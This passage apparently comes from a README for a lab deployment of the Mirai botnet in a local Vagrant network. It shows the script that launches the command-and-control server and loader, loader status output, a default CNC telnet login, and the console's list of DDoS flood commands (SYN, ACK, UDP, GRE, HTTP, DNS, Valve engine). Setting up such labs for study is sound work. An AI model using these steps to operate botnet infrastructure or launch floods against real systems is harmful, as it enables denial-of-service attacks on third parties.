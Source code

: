 ### Run CNC Server and Loader
Launch CNC Server and loader with the following command.

##### Run CNC server and loader
```
    ./run_cnc_and_loader.sh
    > Starting mirai cnc and loader...
    > cd .
    > ni="en6: USB 10/100/1000 LAN" ip_prx="192.168.11" cnc_ip="192.168.11.11" tgt_bgn="30" tgt_end="40" vagrant ssh mirai -c "sudo /vagrant/configs/start.sh"
    > >>> Starting cnc...
    > >>> Startig loader...
    > 0s Processed: 0    Conns: 1    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 1s Processed: 0    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 2s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 3s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 4s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 5s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 6s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 7s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
    > 8s Processed: 1    Conns: 0    Logins: 0   Ran: 0  Echoes:0 Wgets: 0, TFTPs: 0
```

If successfully launched, loaders' status could be observed on the prompt as above.



# Test
Open another bash console to login CNC server. 

* Username: mirai
* Password: password

##### Login Mirai CNC Console
```
    telnet cnc.mirai.com
    >> Username: mirai
    >> Password: ********
```





After login in successfully, check attack commands. Type "?" to see the available commends.

##### Check Attack Commands
```
    mirai>> ?
    Available attack list
    stomp: TCP stomp flood
    greip: GRE IP flood
    greeth: GRE Ethernet flood
    http: HTTP flood
    dns: DNS resolver flood using the targets domain, input IP is ignored
    syn: SYN flood
    ack: ACK flood
    udpplain: UDP flood with less options. optimized for higher PPS
    udp: UDP flood
    vse: Valve source engine specific flood
     
    mirai>>
```
